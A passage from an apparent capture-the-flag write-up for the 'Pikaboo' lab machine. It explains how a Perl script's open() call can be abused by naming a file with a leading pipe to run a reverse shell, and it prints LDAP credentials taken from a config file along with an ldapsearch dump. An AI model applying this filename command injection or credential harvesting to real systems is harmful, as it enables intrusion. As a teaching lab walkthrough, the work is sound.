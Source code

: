 It’s a perl script, it takes CSV files and process it.

[open() for Command Execution](https://www.shlomifish.org/lecture/Perl/Newbies/lecture4/processes/opens.html)

[](https://mailman.linuxchix.org/pipermail/courses/2003-September/001344.html)

According to this blog, ‘perl’ has a bug (feature) by design. The open() function in perl can also be used to execute commands.

```other
(remote) www-data@pikaboo.htb:/srv$ cat  /usr/local/bin/csvupdate | grep 'open' -B 5
}

my $csv = Text::CSV->new({ sep_char => ',' });

my $fname = "${csv_dir}/${type}.csv";
open(my $fh, ">>", $fname) or die "Unable to open CSV target file.\n";
```

As you can see the script which has open () function, it is taking input from one of the directory and processing it. So, we can able to drop a file with a name that starts with pipe character with our reverse shell one-liner. Note: Only FTP group users can able to write to that those directories.

### LDAP Creds

```other
(remote) www-data@pikaboo.htb:/opt/pokeapi/config$ grep -i -B 3 'password' settings.py
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
```

In one of the directory we can find the credentials for LDAP. We have to use those creds to dump/search the LDAP for information.

```other
(remote) www-data@pikaboo.htb:/opt/pokeapi/config$ ldapsearch -x -b 'dc=pikaboo,dc=htb' -H ldap://127.0.0.1 -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -W
Enter LDAP Password:

# extended LDIF
#
# LDAPv3
# base <dc=pikaboo,dc=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# pikaboo.htb
dn: dc=pikaboo,dc=htb
objectClass: domain
dc: pikaboo

# ftp.pikaboo.htb
dn: dc=ftp,dc=pikaboo,dc=htb
objectClass: domain
dc: ftp

# users, pikaboo.htb
dn: ou=users,dc=pikaboo,dc=htb
objectClass: organizationalUnit
objectClass: top
ou: users

# pokeapi.pikaboo.htb
dn: dc=pokeapi,dc=pikaboo,dc=htb
```